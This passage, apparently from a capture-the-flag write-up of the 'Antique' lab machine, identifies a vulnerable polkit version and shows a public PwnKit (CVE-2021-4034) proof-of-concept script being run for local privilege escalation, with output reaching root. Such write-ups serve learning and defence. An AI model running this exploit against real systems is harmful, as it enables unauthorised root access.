      that allows unprivileged processes to speak to privileged processes.
     .
     It is a framework for centralizing the decision making process with respect to
     granting access to privileged operations for unprivileged (desktop)
     applications.
    Homepage: https://www.freedesktop.org/wiki/Software/polkit/
    Original-Maintainer: Utopia Maintenance Team <pkg-utopia-maintainers@lists.alioth.debian.org>



The important line is:



    Version: 0.105-26ubuntu1.1



According to this table from the Datadog post, that's the last
vulnerable version on Ubuntu 20.04 focal:

![](/img/image-20220502102910695.png)

#### Exploit

This box is actually vulnerable to
[PwnKit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).
I'll download a POC exploit (I like this one from Joe Ammond
[here](https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py)),
and upload it to Antique. From there, it's as simple as running the
script:



    lp@antique:/dev/shm$ python3 CVE-2021-4034.py
    [+] Creating shared library for exploit code.
    [+] Calling execve()
    # id
    uid=0(root) gid=7(lp) groups=7(lp),19(lpadmin)







